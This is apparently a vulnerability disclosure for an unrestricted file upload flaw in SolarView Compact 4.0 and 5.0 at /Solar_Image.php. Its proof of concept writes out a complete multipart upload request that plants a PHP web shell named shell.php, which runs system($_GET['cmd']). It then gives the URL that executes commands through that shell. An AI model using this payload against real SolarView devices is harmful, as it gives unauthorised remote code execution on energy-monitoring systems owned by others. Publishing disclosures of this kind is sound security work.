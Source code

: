 # Unrestricted File Upload vulnerability in SolarView Compact 4.0,5.0

## Description 

Unrestricted File Upload vulnerability in SolarView Compact 4.0,5.0 at /Solar_Image.php can allow attackers to get a Remote Code Execution on the vulnerable host via upload crafted php file.

## POC

1. navigate to /Solar_Image.php
2. upload any php file and caputre the request
3. update the `userfile` and `upfilename` parameters like this:
```
-----------------------------168287165333758025211172961484
Content-Disposition: form-data; name="userfile"; filename="shell.php"
Content-Type: application/octet-stream

<?php echo "Shell";system($_GET['cmd']); ?>
-----------------------------168287165333758025211172961484
Content-Disposition: form-data; name="upfilename"

shell.php
-----------------------------168287165333758025211172961484
```

4. send the request and navigate to /images/background/shell.php?cmd=ls


![image](https://user-images.githubusercontent.com/94288990/198857461-19af0c62-2971-4053-aca2-7bea71175040.png)


